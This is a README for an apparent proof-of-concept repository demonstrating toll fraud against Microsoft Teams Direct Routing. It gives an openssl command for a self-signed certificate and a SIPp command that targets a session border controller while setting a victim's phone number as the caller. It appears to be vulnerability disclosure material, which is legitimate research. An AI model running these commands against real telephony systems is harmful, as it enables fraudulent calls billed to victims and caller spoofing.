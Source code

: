 # MSTDR-PoC

Microsoft Teams Direct Routing toll fraud proof of concept script for SIPp.

Please consider the [detailed blog post](https://blog.syss.com/posts/abusing-ms-teams-direct-routing/) for more information about the security issues.

## Usage

1. Generate a self-signed certificate:


```
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout selfsign.key -out selfsign.crt
```

2. Execute the poc.xml script with [SIPp](http://sipp.sourceforge.net/):

```
sipp <target-sbc-ip>:<target-port> -sf poc.xml -s <dest-phone-number> \
-m 1 -t l1 -tls_cert selfsign.crt -tls_key selfsign.key \
-key hostname <target-sbc-hostname> -key caller <victim-phone-number>
```

## Disclaimer

Use at your own risk. Do not use without full consent of everyone involved. For educational purposes only. 

